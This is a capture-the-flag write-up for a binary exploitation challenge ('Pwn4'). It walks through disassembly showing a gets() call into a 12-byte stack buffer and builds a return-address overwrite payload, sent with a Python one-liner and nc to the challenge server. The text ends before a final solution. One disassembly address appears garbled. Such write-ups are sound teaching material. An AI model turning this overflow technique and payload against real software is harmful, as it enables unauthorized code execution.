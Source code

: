# Pwn4 write-up

![](/assets/pwn4.png)

## Analysis

The binary reads an input into a **fixed size buffer** of size 12 bytes. This is done in the function `func1`

```nasm
.text:080484FD func1           proc near               ; CODE XREF: main+35p
.text:080484FD
.text:080484FD s               = byte ptr -0Ch
.text:080484FD
.text:080484FD                 push    ebp
.text:080484FE                 mov     ebp, esp
.text:08048500                 sub     esp, 18h
.text:08048503                 sub     esp, 0Ch
.text:08048506                 lea     eax, [ebp+s]
.text:408048509                 push    eax             ; s
.text:0804850A                 call    _gets
.text:0804850F                 add     esp, 10h
.text:08048512                 nop
.text:08048513                 leave
.text:08048514                 retn
.text:08048514 func1           endp
```

The stack layout looks like

```
-0000000C str             db 12 dup(?)
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

The return address can be overwritten by overflowing the buffer. This gives control over `EIP`.

The binary contains a decoy function `flag_func` that seems to print the flag.

```nasm
.text:080484CB                 public flag_func
.text:080484CB flag_func       proc near
.text:080484CB                 push    ebp
.text:080484CC                 mov     ebp, esp
.text:080484CE                 sub     esp, 8
.text:080484D1                 sub     esp, 0Ch
.text:080484D4                 push    offset command  ; "/bin/cat flag2.txt"
.text:080484D9                 call    _system
.text:080484DE                 add     esp, 10h
.text:080484E1                 nop
.text:080484E2                 leave
.text:080484E3                 retn
.text:080484E3 flag_func       endp
```

We can redirect execution to `flag_func` by crafting the input as follows:

* 12 bytes for filling the buffer
* 4 bytes for overwriting the saved value of `ebp` on the stack
* `\xCB\x84\x04\x08` \(the address of `flag_func` in little endian byte order\)

Testing with these values:

```bash
$ python -c "print 'A'*16+ '\xCB\x84\x04\x08'" > exploit  
$ nc web.ctf.tamu.edu 4324 < exploit 
I require an input: 
Did you really think it would be that easy?
```

We do not get the flag.

Searching for strings we get one which is not used anywhere.

```nasm
.data:0804A028                 public flag
.data:0804A028 flag            db '/bin/cat flag.txt',0
.data:0804A028 _data           ends
```

This suggests the flag must be in the file flag.txt and not flag2.txt.





